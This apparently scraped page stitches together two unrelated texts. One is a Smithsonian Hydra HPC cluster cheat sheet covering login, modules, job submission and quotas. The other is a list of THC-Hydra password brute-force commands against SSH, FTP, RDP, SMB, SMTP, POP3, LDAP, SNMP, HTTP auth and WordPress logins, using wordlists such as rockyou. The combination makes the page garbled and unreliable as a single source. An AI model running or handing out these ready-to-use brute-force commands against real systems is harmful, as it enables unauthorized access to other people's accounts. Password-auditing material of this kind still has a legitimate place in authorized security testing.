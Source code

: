 # Hydra Cheat Sheet

1.  **Login to hydra**
    Choose one of the login nodes:

    `ssh myusername@hydra-login01.si.edu`
    or
    `ssh myusername@hydra-login02.si.edu`

    You will be prompted to enter your password.

    | Very important: never login to the head node (hydra-4) to submit jobs. |
    | ---------------------------------------------------------------------- |

2.  **If I forgot my password or locked my account?**  
    Use the password reset webpage: https://hydra-adm01.si.edu/ssp/?action=sendtoken

3.  **How do I change my password?**  
    You need to change your password every 90 days.

        a. Login to hydra-login01.si.edu: `ssh myusername@hydra-login01.si.edu`
        b. Type in the password command: `passwd`
        c. You'll be prompted to enter your **current** password (once)
        d. Then  you enter your **new** password (twice)

        You can also use the password change website: https://hydra-adm01.si.edu/ssp/index.php

4.  **Where am I when I log in?**  
    In your home directory: `/home/myusername`  
    (you can always type `pwd` to find where you are)

5.  **Where are my files?**  
    Your files should be in the directory: `/pool/genomics/myusername`  
    You might also have files in `/scratch/genomics/myusername` or `/data/genomics/myusername`

6.  **Which programs are available on hydra?**  
    `module avail`  
    It will output a list of software/modules available on hydra

7.  **How do I load a module?**
    `module load module/name`

    Example: to load bwa v. 0.7.17, you would type:
    `module load bioinformatics/bwa/0.7.17`

    You can find out more about the module (like the name of the executable) with:
    `module help module/name`

8.  **What if the program I need is not listed, can I install it on Hydra?**  
    Yes. Try compiling any new software you need in your own space and feel free to reach out with questions. You can also install miniconda and use that to install software.

9.  **How do I start an analysis?**

    You can create a job file either using `nano` or the [Qsub Generator](https://hydra-adm01.si.edu/tools/QSubGen/), which is a web tool to create job files.

    You can submit a job using the command  
    `qsub jobfile.job`

    OR

    You can use the interactive node for light-weight jobs. To access the interactive node, just type:  
    `qrsh`  
    When you type qrsh, you go back to your home directory.

    The memory available without any additional parameters is 8GB. To increase this values use:  
    `qrsh -pe mthread N`  
    where N is between 2 and 32, to use 2 to 32 slots or 16 to 256 GB of memory.

    In both cases, you need to load the necessary modules, either in the job file, or by typing `module load [...]` in the interactive node.

10. **What are the available queues?**  
    Queues are divided by how long a job can run, and also the amount of RAM available per CPU.

    - Short (s): up to 7 hours
    - Medium (m): up to 6 days
    - Long (l): up to 30 days
    - Unlimited (u): well... unlimited

    The queues are also divided into high CPU (up to 6GB per CPU) or high memory (above 6 GB). Here's an example:

    ```
    # ------------Parameters------------------ #
    #$ -S /bin/sh
    #$ -pe mthread 4 #(multithread w/ 4 CPUs)
    #$ -q mThC.q #(medium Time, high CPU)
    #$ -l mres=24G,h_data=6G,h_vmem=6G
    ```

    | Important: more memory is not necessarily better if the software can't use it efficiently. Jobs are prioritized based on queue, so low-RAM jobs will move through the queue faster. Inefficient jobs are flagged by the Hydra admin. |
    | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

11. **How do I check my job status?**

    To check the status of all of your jobs:  
    `qstat -u myusername`

    To check the status of an specific job:  
    `qstat -j job_id_number`

    You can find the job number in the log files, or when you type `qstat`.

12. **How do I kill a job?**  
    `qdel job_id_number`

13. **After my job is done, how to check its parameters, memory used, etc?**  
    `qacct -j job_id_number`

14. **My job failed… Why?**  
    a. Check the log file. Many programs will output the errors, which help understand the issue. Common issues are: misspelled filenames, wrong paths, etc.  
    b. Check your job using the `qacct` command (previous question). If maxvmem is the same as the memory you requested, your job probably used too much memory and was killed  
    c. Check which queue was used (s, m, l, u) and if the job ended right at the time limit of the queue.  
    d. If none of those help answer your question, ask for help :)

15. **How do I check my disk quota on Hydra?**  
    You need to load the module tools/local  
    `module load tools/local`

    To check your quotas with current usage:  
    `parse-quota-report.pl -u myusername`

    | Important: Files older than 180 (pool) or 90 (scratch) days are scrubbed. Files in your home directory and `/data/genomics` are never scrubbed but disk quotas are smaller. |
    | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

16. **How do I copy my files from Hydra to a local computer?**  
    Run this command from a local (aka not connected to Hydra) terminal window:

    `scp myusername@hydra-login01.si.edu:/hydra-path/file destination-on-my-computer`

    (for directories, use the flag `-r` after `scp`)

17. **My files were scrubbed. What do I do?**  
    Please refer to [this page](https://confluence.si.edu/display/HPC/Disk+Space+and+Disk+Usage) for more information on how to request files to be restored (requests must be received by the Friday following scrubbing).

18. **How do I use Dropbox to backup my files?**  
    Please refer to [this page](https://confluence.si.edu/pages/viewpage.action?pageId=40140823#DiskSpaceandDiskUsage-HowToCopy) for more information.

19. **How do I find help?**
    - **Wiki**: [https://confluence.si.edu/display/HPC](https://confluence.si.edu/display/HPC)
    - **Email**: SI-HPC@si.edu
    - **GitHub**: previous workshops tutorials [https://github.com/SmithsonianWorkshops](https://github.com/SmithsonianWorkshops)
    - **In person**: bioinformatics brown-bag (every Thursday at 12 pm, NMNH W107)

# Command Description

hydra -P password-file.txt -v $ip snmp Hydra brute force against SNMP

hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp Hydra FTP known user and rockyou password list

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh Hydra SSH using list of users and passwords

hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh Hydra SSH using a known password and a username list

hydra $ip -s 22 ssh -l -P big_wordlist.txt Hydra SSH Against Known username on port 22

hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V Hydra POP3 Brute Force

hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V Hydra SMTP Brute Force

hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin Hydra attack http get 401 login with a dictionary

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip Hydra attack Windows Remote Desktop with rockyou

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb Hydra brute force SMB user with rockyou:

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' Hydra brute force a Wordpress admin login

hydra -L usernames.txt -P passwords.txt $ip smb -V -f SMB Brute Forcing

hydra -L users.txt -P passwords.txt $ip ldap2 -V -f LDAP Brute Forcing
